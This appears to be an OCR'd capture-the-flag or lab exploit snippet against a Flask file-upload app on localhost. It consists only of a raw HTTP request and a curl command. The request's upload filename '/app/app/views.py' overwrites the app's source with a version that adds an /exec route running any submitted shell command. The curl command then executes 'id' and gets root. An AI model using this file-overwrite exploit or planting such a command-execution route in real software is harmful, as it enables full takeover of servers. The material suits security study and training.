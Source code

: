 ```http
POST / HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------30008140435101421202228787033
Content-Length: 1105
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/
Upgrade-Insecure-Requests: 1

-----------------------------30008140435101421202228787033
Content-Disposition: form-data; name="file"; filename="/app/app/views.py"
Content-Type: text/plain

import os

from app.utils import get_file_name
from flask import render_template, request, send_file

from app import app


@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))

@app.route("/exec", methods=["POST"])
def run_cmd():
	import subprocess
	return subprocess.check_output(request.form.get("cmd"), shell=True)

-----------------------------30008140435101421202228787033--
```

```bash
$ curl -X POST -d 'cmd=id' http://127.0.0.1/exec
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
```